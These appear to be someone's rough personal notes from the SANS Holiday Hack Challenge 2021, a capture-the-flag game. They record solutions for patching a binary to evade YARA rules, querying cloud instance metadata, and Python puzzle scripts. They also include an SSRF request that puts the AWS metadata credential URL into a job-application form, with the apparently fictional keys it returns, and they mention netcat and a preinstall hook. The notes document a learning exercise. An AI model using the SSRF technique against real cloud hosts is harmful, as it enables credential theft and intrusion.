

# cmdlong - grep challenge
1. 62078
2. 8080
3. 26054
4. 14372
5. 402
6. 12
cat bigscan.gnmap | grep -n -o "open"

iwlist
iwconfig
curl

# logic cruncher
was a game

# yara terminal

https://www.varonis.com/blog/yara-rules/
yara rule 135 is triggerred line 4373
sed "4373, 4473!d" yara_rules/rules.yar

rule yara_rule_135 {
   meta:
      description = "binaries - file Sugar_in_the_machinery"
      author = "Sparkle Redberry"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-21"
      hash = "19ecaadb2159b566c39c999b0f860b4d8fc2824eb648e275f57a6dbceaf9b488"
   strings:
      $s = "candycane"
   condition:
      $s
}

thinking about converting it into binary

{NotReallyAFlag}

yara 1056

cat yara_rules/rules.yar | grep -A 20 "yara_rule_1056"
rule yara_rule_1056 {
        description = "binaries - file frosty.exe"
        author = "Sparkle Redberry"
        reference = "North Pole Malware Research Lab"
        date = "1955-04-21"
        hash = "b9b95f671e3d54318b3fd4db1ba3b813325fcef462070da163193d7acb5fcd03"
    strings:
        $s1 = {6c 6962 632e 736f 2e36}
        $hs2 = {726f 6772 616d 2121}
    condition:
        all of them
}

yara 1732

ule yara_rule_1732 {
   meta:
      description = "binaries - alwayz_winter.exe"
      author = "Santa"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-22"
      hash = "c1e31a539898aab18f483d9e7b3c698ea45799e78bddc919a7dbebb1b40193a8"
   strings:
      $s1 = "This is critical for the execution of this program!!" fullword ascii
      $s2 = "__frame_dummy_init_array_entry" fullword ascii
      $s3 = ".note.gnu.property" fullword ascii
      $s4 = ".eh_frame_hdr" fullword ascii
      $s5 = "__FRAME_END__" fullword ascii
      $s6 = "__GNU_EH_FRAME_HDR" fullword ascii
      $s7 = "frame_dummy" fullword ascii
      $s8 = ".note.gnu.build-id" fullword ascii
      $s9 = "completed.8060" fullword ascii
      $s10 = "_IO_stdin_used" fullword ascii
      $s11 = ".note.ABI-tag" fullword ascii
      $s12 = "naughty string" fullword ascii
      $s13 = "dastardly string" fullword ascii
      $s14 = "__do_global_dtors_aux_fini_array_entry" fullword ascii
      $s15 = "__libc_start_main@@GLIBC_2.2.5" fullword ascii
      $s16 = "GLIBC_2.2.5" fullword ascii
      $s17 = "its_a_holly_jolly_variable" fullword ascii
      $s18 = "__cxa_finalize" fullword ascii
      $s19 = "HolidayHackChallenge{NotReallyAFlag}" fullword ascii
      $s20 = "__libc_csu_init" fullword ascii
   condition:
      uint32(1) == 0x02464c45 and filesize < 50KB and
      10 of them
}

dd if=/dev/zero of=the_non bs=1MiB count=1 conv=notrunc oflag=append

snowball2@3a54e3a1fc6a:~$ ./the_non
Machine Running.. 
Toy Levels: Very Merry, Terry
Naughty/Nice Blockchain Assessment: Untampered
Candy Sweetness Gauge: Exceedingly Sugarlicious
Elf Jolliness Quotient: 4a6f6c6c7920456e6f7567682c204f76657274696d6520417070726f766564

use vim to open then use :%!xxd to hexdump go down to candycane change it.  also change 726f 6772 626d 2121 nearby (ascii: is program!!). finally run dd if=/dev/zero of=the_non bs=1MiB count=1 conv=notrunc oflag=append to change file size

# shellcode primer
https://tracer.kringlecastle.com/ - do it

in challenge 4 error
```
; TODO: Find the syscall number for sys_exit and put it in rax
mov rax, 60h
; TODO: Put the exit_code we want (99) in rdi
mov rdi, 99h
; Perform the actual syscall
syscall
```



# ipv6 scanner

rubber ducky usb device
ickymcgoop

# printer exploytation
ruby cyster

# front door frost tower

iwlist scanning
```
Address: 02:4A:46:68:69:21
                    Frequency:5.2 GHz (Channel 40)
                    Quality=48/70  Signal level=-62 dBm  
                    Encryption key:off
                    Bit Rates:400 Mb/s
                    ESSID:"FROST-Nidus-Setup"
```

iwconfig 

# FPGA

nned hints form the slot machine
https://fpga.jackfrosttower.com/?challenge=fpga&id=7cdf2a05-13bd-432b-aee8-e8cb55a5cd46&username=ashwin&area=rooftop&location=13,9#

HINT: 
`If $rtoi(real_no * 10) - ($rtoi(real_no) * 10) > 4, add 1`

https://www.youtube.com/watch?v=GFdG1PJ4QjA

changing actual digitallogic circuitry

Trademarkphrse -  let me talk you your manager

https://www.fpga4fun.com/


always @(posedge clk) begin
        if (counter == N) begin
            counter <= 0;
            waveout <= ~ waveout;
        end else begin
            counter <= counter + 1;
        end
    end

# printer exploitation

https://printer.kringlecastle.com/

What dowe need todo? we can put in our own code in the firmware.

# IMDS

```cmd
}elfu@d65bce7e3f36:~$ curl http://169.254.169.254/latest/dynamic/instance-identity/document |jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   451  100   451    0     0   440k      0 --:--:-- --:--:-- --:--:--  440k
{
  "accountId": "PCRVQVHN4S0L4V2TE",
  "imageId": "ami-0b69ea66ff7391e80",
  "availabilityZone": "np-north-1f",
  "ramdiskId": null,
  "kernelId": null,
  "devpayProductCodes": null,
  "marketplaceProductCodes": null,
  "version": "2017-09-30",
  "privateIp": "10.0.7.10",
  "billingProducts": null,
  "instanceId": "i-1234567890abcdef0",
  "pendingTime": "2021-12-01T07:02:24Z",
  "architecture": "x86_64",
  "instanceType": "m4.xlarge",
  "region": "np-north-1"
}
```

meta-data
```
}elfu@d65bce7e3f36:~$ curl http://169.254.169.254/latest/dynamic/instance-identity/document |jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   451  100   451    0     0   440k      0 --:--:-- --:--:-- --:--:--  440k
{
  "accountId": "PCRVQVHN4S0L4V2TE",
  "imageId": "ami-0b69ea66ff7391e80",
  "availabilityZone": "np-north-1f",
  "ramdiskId": null,
  "kernelId": null,
  "devpayProductCodes": null,
  "marketplaceProductCodes": null,
  "version": "2017-09-30",
  "privateIp": "10.0.7.10",
  "billingProducts": null,
  "instanceId": "i-1234567890abcdef0",
  "pendingTime": "2021-12-01T07:02:24Z",
  "architecture": "x86_64",
  "instanceType": "m4.xlarge",
  "region": "np-north-1"
}
```

`http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-role ; echo`

elfu-deploy-role

```
elfu@d65bce7e3f36:~$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-role ; echo
{
        "Code": "Success",
        "LastUpdated": "2021-12-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-12-02T18:50:40Z"
}
```

For IMDSv2 access, you must request a token from the IMDS server using the
X-aws-ec2-metadata-token-ttl-seconds header to indicate how long you want the token to be
used for (between 1 and 21,600 secods).
Examine the contents of the 'gettoken.sh' script in the current directory using 'cat'.

elfu@d65bce7e3f36:~$ echo $TOKEN
Uv38ByGCZU8WP18PmmIdcpVmx00QA3xNe7sEB9Hixkk=

`curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/placement/region`

noxious o dor: anytimr yousee url for input try ssf

# Slots machine

HTTP/2 200 OK
Date: Sun, 12 Dec 2021 06:33:32 GMT
Date: Sun, 12 Dec 2021 06:33:32 GMT
X-Powered-By: PHP/7.4.26
Cache-Control: no-cache, private
Content-Type: application/json
X-Ratelimit-Limit: 60
X-Ratelimit-Remaining: 58
Access-Control-Allow-Origin: *
Via: 1.1 google
Alt-Svc: clear

{"success":true,"data":{"credit":176,"jackpot":0,"free_spin":0,"free_num":0,"scaler":0,"num_line":20,"bet_amount":1,"pull":{"WinAmount":0,"FreeSpin":0,"WildFixedIcons":[],"HasJackpot":false,"HasScatter":false,"WildColumIcon":"","ScatterPrize":0,"SlotIcons":["icon2","icon1","icon9","icon5","icon5","icon7","icon9","icon10","icon9","icon10","icon1","scatter","icon5","icon9","icon3"],"ActiveIcons":[],"ActiveLines":[]},"response":"Woweee!"},"message":"Spin success"}

# pcap analysis
for pcap: https://apackets.com/pcaps/flows

Snooty+lady
Yaqh - 1024

Bluk - human

Quib - ugly little man


Urgh - stupid man

Kraq - rude couple

Stuv - grumpy man

Gavk - annoying woman

Bloz - nasty bad woman

Euuk - Ugly mean couple

Crag - Bald man

Klug - funny looking man

Hagg - Incredibly angry lady - 1st 1024

Muffy+VonDuchess+Sebastian - complained error room 1024

Wukk - crabby woman

Ikky - Family in room

Flud - very cranky lady 2nd 1024

Muffy+VonDuchess+Sebastian 

Flud Hagg Yaqh

# applying for jack frost tower IMDS exploitation

Not able to run the same commands, dir buster?

SSRF in file upload lets try and input something out of th eworld in file input

https://apply.jackfrosttower.com/?inputName=s&inputEmail=s@s.c&inputPhone=s&inputField=Crayon%20on%20walls&resumeFile=%22file://images/4.jpg%22&inputWorkSample=file://images/4.jpg&additionalInformation=werwerwer&submit=file://images/4.jpg


cheat from https://cobalt.io/blog/a-pentesters-guide-to-server-side-request-forgery-ssrf#:~:text=etc/passwd%22%3E%5C%3C/iframe%3E%5C%0A%0A%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D-,__AWS%3A__,-http%3A//instance%2Ddata

got an invalid name input


ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
events/recommendations/rebalance
hostname
iam/info
iam/security-credentials
iam/security-credentials/jf-deploy-role
instance-action
instance-id
instance-life-cycle
instance-type
latest
latest/api/token
local-hostname
local-ipv4
mac
network/interfaces/macs/0e:49:61:0f:c3:11/device-number
network/interfaces/macs/0e:49:61:0f:c3:11/interface-id
network/interfaces/macs/0e:49:61:0f:c3:11/ipv4-associations/192.0.2.54
network/interfaces/macs/0e:49:61:0f:c3:11/ipv6s
network/interfaces/macs/0e:49:61:0f:c3:11/local-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/local-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/mac
network/interfaces/macs/0e:49:61:0f:c3:11/owner-id
network/interfaces/macs/0e:49:61:0f:c3:11/public-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/public-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/security-group-ids
network/interfaces/macs/0e:49:61:0f:c3:11/security-groups
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-id
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv6-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-id
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv6-cidr-blocks
placement/availability-zone
placement/availability-zone-id
placement/group-name
placement/host-id
placement/partition-number
placement/region
product-codes
public-hostname
public-ipv4
public-keys/0/openssh-key
reservation-id
security-groups
services/domain
services/partition
spot/instance-action
spot/termination-time

GET /?inputName=jf&inputEmail=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&inputPhone=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&resumeFile=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&inputWorkSample=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&additionalInformation=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&submit= HTTP/2

{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}


# elf moving 

Guide 
```python
import elf, munchkins, levers, lollipops, yeeters, pits
# Grab our lever object
lever = levers.get(0)
munchkin = munchkins.get(0)
lollipop = lollipops.get(0)
# move to lever position
elf.moveTo(lever.position)
# get lever int and add 2 and submit val
leverData = lever.data() + 2
lever.pull(leverData)
# Grab lollipop and stand next to munchkin
elf.moveLeft(1)
elf.moveUp(8)
# Solve the munchkin's challenge
munchList = munchkin.ask() # e.g. [1, 3, "a", "b", 4]
answer_list = []
for elem in munchList:
    if type(elem) == int:
        answer_list.append(elem)
munchkin.answer(answer_list)
elf.moveUp(2) # Move to finish
```

1. 

elf.moveLeft(10)
elf.moveUp(100)

2. 

```python
import elf, munchkins, levers, lollipops, yeeters, pits


all_lollipops = lollipops.get()
elf.moveTo(all_lollipops[1].position)
elf.moveTo(all_lollipops[0].position)
elf.moveLeft(3)
elf.moveUp(100)
```

3. 

lever0 = levers.get(0)
lollipop0 = lollipops.get(0)

leverdata = lever0.data() + 2
elf.moveTo(lever0.position)

lever0.pull(leverdata)
elf.moveTo(lollipop0.position)
elf.moveUp(100)

4. 

import elf, munchkins, levers, lollipops, yeeters, pits
lever0, lever1, lever2, lever3, lever4 = levers.get()
elf.moveLeft(2)
lever4.pull("A String")
elf.moveTo(lever3.position)
lever3.pull(True)
elf.moveTo(lever2.position)
lever2.pull(1)
elf.moveTo(lever1.position)
lever1.pull([1])
elf.moveTo(lever0.position)
lever0.pull({})
elf.moveUp(100)

5. 

lever0, lever1, lever2, lever3, lever4 = levers.get()
elf.moveLeft(2)
lever4.pull("undefined concatenate")
elf.moveTo(lever3.position)
lever3.pull(True)
elf.moveTo(lever2.position)
lever2.pull(lever2.data() + 1)
elf.moveTo(lever1.position)
a = lever1.data()
a.append(1)
lever1.pull(a)
elf.moveTo(lever0.position)
b = lever0.data()
b['strkey'] = "strvalue"
lever0.pull(b)
elf.moveUp(100)

6. 
wait for the array input

```
import elf, munchkins, levers, lollipops, yeeters, pits
lever = levers.get(0)
data = lever.data()
if type(data) == type([]):
    for i in range(len(data)):
        data[i] = data[i] + 1
print(data)
#elf.move
elf.moveTo(lever.position)
#lever.something
lever.pull(data)
elf.moveUp(10000)
```

7. 

8. 

import elf, munchkins, levers, lollipops, yeeters, pits
all_lollipops = lollipops.get()
lever = levers.get(0)
a = ["munchkins rule"] + lever.data()
for lollipop in all_lollipops:
    elf.moveTo(lollipop.position)
elf.moveTo(lever.position)
lever.pull(a)
elf.moveLeft(100)
elf.moveDown(100)
elf.moveLeft(3)
elf.moveUp(1000)

# caramel santiago
They were dressed for 4.0°C and overcast conditions. The elf mentioned something about Stack Overflow and Golang.

flask cookie

`using flas unsign` not working
1. try 1
hogmany - scotland
tab for indent

They said, if asked, they would describe their next location in three words as "frozen, push, and tamed.
ofcom uk
They were dressed for 11.0°C and overcast conditions. The elf mentioned something about Stack Overflow and C#.

They said, if asked, they would describe their next location as "only milder vanilla."
slack

2. try 2


# exif tool

last modified by Jack frost
2021-12-21

# splunk

git status
git@github.com:elfnp3/partnerapi.git
docker compose up
https://github.com/snoopysecurity/dvws-node
holiday-utils-js
/usr/bin/nc.openbsd
6
preinstall.sh

whiz


